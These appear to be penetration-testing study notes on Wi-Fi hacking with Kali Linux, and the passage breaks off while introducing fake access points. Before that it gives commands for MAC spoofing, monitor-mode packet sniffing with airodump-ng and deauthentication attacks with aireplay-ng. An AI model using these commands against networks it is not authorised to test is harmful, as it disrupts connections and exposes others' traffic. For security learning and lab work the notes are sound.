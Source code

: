 # Wi-Fi & Wired Hacking 

All of the following requires tools that are default installed on Kali Linux. </br>
You can set up a VirtualBox instance with Kali and run as a NAT network to </br>
experiment with these tools. Use only on Networks that you have permission </br>
to pen test.

Virtual Machines to Install
```
https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/
// MSEdge on Windows 10 Stable -> Virtual Box
```

Open Settings
```
Set up VMs on a NAT network
Kali should get 1 GB Ram, 1 CPU
Windows should get 2 GB Ram, 2 CPU
```

Snapshots (Storing state of a Virtual Machine)
```
Click the Snapshot Button
Click Take
This way you can come back later
```

Basic Linux Operations
```
// Update the source list
apt-get update
// Install Terminator
apt-get install terminator
// Install needed updates
apt-get upgrade
```

## Networks

Series of connected devices </br>
One device is a server, which contains data shared between devices </br>
In Wi-Fi, the server is the router and data is the internet </br>
All data is sent as packets over the air </br>
Anyone in range can sniff these

### Connecting Wireless Adapters to Kali

Built in network cards will not work with VMs </br>
Even if Kali is a main machine, you need an adapter for more powerful features </br>
You need to download the VirtualBox Oracle VM Extension Pack to get USB features </br>
Add the device in settings -> ports -> USB </br>
With Kali running, VirtualBox -> Devices -> USB, make sure adapter is checked </br>

## Packet Sniffing

### MAC Address

- Media Access Control, A physical static address assigned by the network card manufacturer
- Used by devices to identify each other & transfer packets to the right place
- Each packet has a source & destination

#### Changing your MAC Address

MAC addresses are static, so they can only be changed temporarily in the RAM.</br>
This may help you avoid blacklists or align with whitelists.

```
$ iwconfig
$ ifconfig wlan0 down		// Disable wireless card
$ macchanger --help			// View macchanger help
$ macchanger --random wlan0	// Get a random MAC for wlan0
$ macchanger wlan0 up		// Enable wireless card
```

Two ways to capture packets
- Managed mode, which only gets packets with your MAC address
- Monitor mode, which grabs all packets within Wi-Fi range

### Airodump-ng

Part of the Aircrack-ng package. It's a packet sniffer that captures all traffic within
range. We can also scan and gather info about wifi networks around us.

```
// enable monitor mode
$ airmon-ng start [interface]
// start airodump-ng
$ airodump-ng [interface]
// stop monitor mode
$ airmon-ng stop [interface]
```

Manual monitor mode
```
$ ifconfig wlan0 down
$ iwconfig wlan0 mode monitor
$ ifconfig wlan0 up
$ airodump-ng wlan0
```

One more method
```
$ airmon-ng
$ ifconfig wlan0 down
$ airmon-ng check kill
$ airmon-ng start wlan0
$ iwconfig wlan0mon
```

Running airmon-ng
```
$ airodump-ng mon0
// Start sniffing traffic
BSSID - MAC address
PWR - How close the device is
Data - # of Useful packets
And various encryption forms

$ airodump-ng --channel [c] --bssid [b] --write [o] [interface]
// Example of specific target
// The second section contains clients associated with the access point
// The output will use 4 formats, including .cap, .csv & .xml
```

## Deauthentication Attacks

Disconnect any device from any network within the wi-fi range, even if the network
is protected with a key.

Hacker sends deauthentication packets to the router, pretending to be the target machine
by spoofing the MAC address.

Hacker simultaneously sends packets to the target machine (spoofing the router MAC address)
telling it to re-authenticate itself.

### Aireplay-ng

De-authenticate all clients
```
aireplay-ng --deauth [# of packets] -a [AP] [interface]
```

De-authenitcate specific client
```
aireplay-ng --deauth [# of packets] -a [AP] -c [target] [interface]
```

## Creating a Fake Access Point (honeypot)

Creating an open AP attracts many clients to automatically connect. We can sniff the
unencrypted traffic created by the clients.

Two cards required
- One network card needs to be connected to the internet
- Another card needs to broadcast as an access point (wi-fi card)










